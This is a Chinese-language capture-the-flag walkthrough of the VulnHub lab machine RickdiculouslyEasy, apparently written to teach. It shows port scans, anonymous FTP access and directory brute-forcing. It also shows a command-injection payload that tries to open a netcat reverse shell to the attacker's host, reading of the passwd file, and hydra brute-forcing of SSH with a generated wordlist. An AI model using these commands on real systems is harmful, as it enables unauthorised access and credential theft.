






# RICKDICULOUSLYEASY: 1

> https://download.vulnhub.com/rickdiculouslyeasy/RickdiculouslyEasy.zip

靶场IP：`192.168.32.12`

扫描对外端口服务

```
┌──(root㉿kali)-[/tmp]
└─# nmap -sV -p1-65535 192.168.32.12
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-08 04:54 EDT
Nmap scan report for 192.168.32.12
Host is up (0.00018s latency).
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh?
80/tcp    open  http    Apache httpd 2.4.27 ((Fedora))
9090/tcp  open  http    Cockpit web service 161 or earlier
13337/tcp open  unknown
22222/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
60000/tcp open  unknown
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port22-TCP:V=7.92%I=7%D=9/8%Time=6319ADC4%P=x86_64-pc-linux-gnu%r(NULL,
SF:42,"Welcome\x20to\x20Ubuntu\x2014\.04\.5\x20LTS\x20\(GNU/Linux\x204\.4\
SF:.0-31-generic\x20x86_64\)\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port13337-TCP:V=7.92%I=7%D=9/8%Time=6319ADC4%P=x86_64-pc-linux-gnu%r(NU
SF:LL,29,"FLAG:{TheyFoundMyBackDoorMorty}-10Points\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port60000-TCP:V=7.92%I=7%D=9/8%Time=6319ADCA%P=x86_64-pc-linux-gnu%r(NU
SF:LL,2F,"Welcome\x20to\x20Ricks\x20half\x20baked\x20reverse\x20shell\.\.\
SF:.\n#\x20")%r(ibm-db2,2F,"Welcome\x20to\x20Ricks\x20half\x20baked\x20rev
SF:erse\x20shell\.\.\.\n#\x20");
MAC Address: 08:00:27:73:25:78 (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.88 seconds

```

FTP匿名登录

```
┌──(root㉿kali)-[/tmp]
└─# ftp 192.168.32.12
Connected to 192.168.32.12.
220 (vsFTPd 3.0.3)
Name (192.168.32.12:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||58436|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        0              33 Aug 22  2017 .
drwxr-xr-x    3 0        0              33 Aug 22  2017 ..
-rw-r--r--    1 0        0              42 Aug 22  2017 FLAG.txt
drwxr-xr-x    2 0        0               6 Feb 12  2017 pub
226 Directory send OK.
ftp> get FLAG.txt
local: FLAG.txt remote: FLAG.txt
229 Entering Extended Passive Mode (|||17909|)
150 Opening BINARY mode data connection for FLAG.txt (42 bytes).
100% |**********************************************************************************************************************************************************************************************|    42       70.35 KiB/s    00:00 ETA
226 Transfer complete.
42 bytes received in 00:00 (41.93 KiB/s)
ftp> cd pub
250 Directory successfully changed.
ftp> ls -al
229 Entering Extended Passive Mode (|||28359|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0               6 Feb 12  2017 .
drwxr-xr-x    3 0        0              33 Aug 22  2017 ..
226 Directory send OK.
```

```
┌──(root㉿kali)-[/tmp]
└─# cat FLAG.txt   
FLAG{Whoa this is unexpected} - 10 Points
```

访问80端口


访问9090端口，获得`FLAG {There is no Zeus, in your face!} - 10 Points`



访问13337端口

```
┌──(root㉿kali)-[/tmp]
└─# nc 192.168.32.12 13337          
FLAG:{TheyFoundMyBackDoorMorty}-10Points

```

访问60000端口

```
┌──(root㉿kali)-[/tmp]
└─# nc 192.168.32.12 60000
Welcome to Ricks half baked reverse shell...
# ls
FLAG.txt 
# cat FLAG.txt
FLAG{Flip the pickle Morty!} - 10 Points 
```

爆破80web目录，发现`/robots.txt`

```
┌──(root㉿kali)-[/tmp]
└─# dirb http://192.168.32.12/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Sep  8 05:01:29 2022
URL_BASE: http://192.168.32.12/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.32.12/ ----
+ http://192.168.32.12/cgi-bin/ (CODE:403|SIZE:217)                                                                                                                                                                                       
+ http://192.168.32.12/index.html (CODE:200|SIZE:326)                                                                                                                                                                                     
==> DIRECTORY: http://192.168.32.12/passwords/                                                                                                                                                                                            
+ http://192.168.32.12/robots.txt (CODE:200|SIZE:126)                                                                                                                                                                                     
                                                                                                                                                                                                                                          
---- Entering directory: http://192.168.32.12/passwords/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Thu Sep  8 05:01:31 2022
DOWNLOADED: 4612 - FOUND: 3

```

访问`/robots.txt`

```
┌──(root㉿kali)-[/tmp]
└─# curl http://192.168.32.12/robots.txt
They're Robots Morty! It's ok to shoot them! They're just Robots!

/cgi-bin/root_shell.cgi
/cgi-bin/tracertool.cgi
/cgi-bin/*

```

发现`/cgi-bin/tracertool.cgi`是命令注入漏洞



启动一个监听器并尝试`; nc -n <kali-ip> <kali-port> -e /usr/bin/bash`。不幸的是，**没有shell反弹**！看起来某种防火墙，正在阻止出站连接。

查看`/var/www/html`目录，找到`passwords`目录

```
┌──(root㉿kali)-[/tmp]
└─# curl http://192.168.32.12/passwords/FLAG.txt
FLAG{Yeah d- just don't do it.} - 10 Points
```



```
┌──(root㉿kali)-[/tmp]
└─# curl http://192.168.32.12/passwords/passwords.html
<!DOCTYPE html>
<html>
<head>
<title>Morty's Website</title>
<body>Wow Morty real clever. Storing passwords in a file called passwords.html? You've really done it this time Morty. Let me at least hide them.. I'd delete them entirely but I know you'd go bitching to your mom. That's the last thing I need.</body>
<!--Password: winter-->
</head>
</html>
```

获取用户用来爆破ssh



```
┌──(root㉿kali)-[/tmp]
└─# cat passwd| awk -F ':' '{print$1}'                
root
bin
daemon
adm
lp
sync
shutdown
halt
mail
operator
games
ftp
nobody
systemd-coredump
systemd-timesync
systemd-network
systemd-resolve
dbus
polkitd
sshd
rpc
abrt
cockpit-ws
rpcuser
chrony
tcpdump
RickSanchez
Morty
Summer
apache
```

爆破22222端口，发现用户`Summer`



ssh登录

```
FLAG{Get off the high road Summer!} - 10 Points
```



查看图片文件，发现密码：`Meeseek`

```
[Summer@localhost Morty]$ head Safe_Password.jpg 
����JFIF``���ExifMM▒J(�iZ``��P�8��8 The Safe Password: File: /home/Morty/journal.txt.zip. Password: Meeseek8BIM8BIM%����        ���B~�8P"��

���}!1AQa"q2��#B��R��$3br�
▒▒%&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz���������������������������������������������������������������������������

���w!1AQaq"2B����       #3R�br�
$4�%�▒▒&'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz��������������������������������������������������������������������������C00D000D\DDDD\t\\\\\t�tttttt�������������������������������C"$$848`44`最�����������������������������������������������������5��
                 ?Ӣ�+P��(��(��(��(��(��(��(��(��(��(��(��(��(��(��(��(��(��(��(��(����
�,o���Y��B�W��@ޠV��1���(��3
(��
ɹ�h��l?�_��j(j�Nڣ9E���с3�}���U��dGQ�XJ6:a;�b�ST1w��M�(����OPKր(����xժ�m���ѫ4�1�(��QEn�U�C
(��
���)�1�C(a/��lsRS'�QE�!!Ac�S��3?ڤ�?�We7�e�Տ���P�x���aV]��Q��d�k?�n�5��|�Z��E?���tS���E:�:ƿ�5Bvt��u}���r

```

解压压缩包

```
[Summer@localhost Morty]$ unzip journal.txt.zip 
Archive:  journal.txt.zip
[journal.txt.zip] journal.txt password: 
error:  cannot create journal.txt
        Permission denied
[Summer@localhost Morty]$ cp journal.txt.zip /tmp
[Summer@localhost Morty]$ cd /tmp
[Summer@localhost tmp]$ unzip journal.txt.zip 
Archive:  journal.txt.zip
[journal.txt.zip] journal.txt password: 
  inflating: journal.txt             
[Summer@localhost tmp]$ ls
journal.txt  journal.txt.zip  systemd-private-600aeec3477041cc9e077f6a83e35494-chronyd.service-NZjuFq  systemd-private-600aeec3477041cc9e077f6a83e35494-httpd.service-zIURtJ

[Summer@localhost tmp]$ head  journal.txt
Monday: So today Rick told me huge secret. He had finished his flask and was on to commercial grade paint solvent. He spluttered something about a safe, and a password. Or maybe it was a safe password... Was a password that was safe? Or a password to a safe? Or a safe password to a safe?

Anyway. Here it is:

FLAG: {131333} - 20 Points 

```

使用找到`safe`二进制文件的提示，我查找了 Rick 的旧乐队 - `The Flesh Curtains`。我还需要根据这些单词**按特定顺序进行一些密码排列：**

- 1个大写字符
- 然后，1个号码
- 最后，乐队的话之一——`Flesh`或者`Curtains`

使用 Hashcat 进行排列`maskprocessor`：

```shell
# ?u = upper
# ?d = digit
mp64 ?u?dFlesh >> rick
mp64 ?u?dflesh >> rick
mp64 ?u?dCurtains >> rick
mp64 ?u?dcurtains >> rick
```

现在使用我的单词表 – `rick`，我将尝试通过以下方式暴力破解 SSH `hydra`：

```shell
hydra -IVf -s 22222 -l RickSanchez -P rick ssh://target-ip-address
```

而且，一段时间后我受到了打击：`P7Curtains`

